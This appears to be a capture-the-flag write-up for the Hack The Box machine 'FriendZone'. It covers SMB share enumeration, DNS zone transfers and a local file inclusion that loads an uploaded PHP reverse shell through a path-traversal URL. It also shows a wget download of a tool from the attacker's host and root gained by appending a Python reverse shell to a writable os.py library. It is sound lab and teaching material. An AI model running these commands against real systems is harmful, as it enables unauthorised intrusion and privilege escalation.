

FriendZone
Nmap
A few open ports:

Port 80
Port 21
No exploits
No anonymous access
Samba
From our basic nmap scan I know that ports 139 and 445 are open. This means that it has open Samba
I am going to use another nmap script to enumerate smb:
nmap --script smb-enum-shares -p 139,445
Another command to enumerate smb
smbclient -L //10.129.230.106/ -U guest -N -R
Then I used smbclient to check all of them, one by one.
smbclient //10.129.230.106/Development -U guest
When I got to general I saw this:
So I got creds.txt
Here is the contents of creds.txt
DNS
We know that DNS is running on tcp/53, so we can try to do a zone transfer:
dig axfr @10.129.230.105 friendzoneportal.red
After executing this command we get a few interesting subdomains.
However, we do not get much
There is another domain that we need to do a zone transfer of
friendzone.red
dig axfr @10.129.230.105 friendzone.red
I added these to /etc/hosts
Local File Inclusion
After a little bit of researching with the creds that I found earlier, I found this webpage:
And immediately I notice the pagename parameter.
We can assume that the pagename parameter loads a different page from the webserver. In this case it loads timestamp. Let's test the assumption.
There we go! It means the dashboard.php loads timestamp.php
We also know that there was login.php. So let's see what happens if we try to load that one.

Looks like it works.
It means we just found LFI.
We could mess around and try to find other files. Also, we could use php base64 wrapper to get the source code. However, it would not give us much.
Reverse Shell
Remember smb? We have access to read and write in the Development directory.
We can see that for the Files directory it is /etc/Files, so we can assume that for the Development it would be /etc/Development.
I found a simple php reverse shell on revshells.com, started a netcat listener,
then using smbclient connected to the Development directory and put the php shell there.
smbclient //10.129.230.108/Development -U guest
Now, we can use the earlier found LFI to get a reverse shell.
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=../../../../../../etc/Development/shell.
{kind=link}
I looked around for a little bit and found that there was a user called friend. And also later I found his credentials.
Getting root
I used ssh to get inside "using our friend"
Then I decided to get pspy64 to see what is happening on the system.
I downloaded it from this page: pspy64 Then started:
python3 -m http.server
And then on the target system went to the /tmp directory and used wget to get pspy64 on the target system.
wget http://10.10.14.3:8000/pspy64
Then I used chmod to make it executable.
chmod +x pspy64
Then I executed it and waited for a little bit to see what was happening on the system.
After a little while I noticed this:
Immediately, I read the /opt/server_admin/reporter.py
Looks like, the code just sends emails, but something that we could potentially use is that it imports the os library.
I used locate os.py to find the library.
Looking at the syntax of reporter.py we know that it uses python version 2, so the first result is what we need.
Let's see what permissions we have for that file.
Looks like we can read and write.
I started another netcat listener on a different port. Then found a little python reverse shell on revshells.com and added the code to the end of /usr/lib/python2.7/os.py
After a few minutes of waiting I got root!!!!